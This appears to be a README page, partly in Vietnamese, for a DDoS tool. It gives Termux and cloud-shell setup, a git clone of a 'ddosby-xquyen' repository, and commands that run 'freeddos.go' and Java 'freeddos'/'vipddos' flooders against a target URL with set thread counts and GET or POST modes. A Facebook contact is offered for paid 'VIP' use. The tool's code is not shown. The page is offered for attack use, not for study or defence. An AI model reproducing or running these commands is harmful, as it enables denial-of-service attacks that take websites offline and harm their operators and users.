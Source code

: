# Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt upgrade

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/Xuan-QuyenDepzaivailon/ddosby-xquyen

cd ddosby-xquyen
# Chế độ Get sài cho web https://
go run freeddos.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run freeddos.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS Free

java freeddos.java

Link web:

Thread: 170000

Method: 4000
# Java DDoS Vip
java vipddos.java

Cách sài ib fb: https://m.facebook.com/dv.xuanquyen
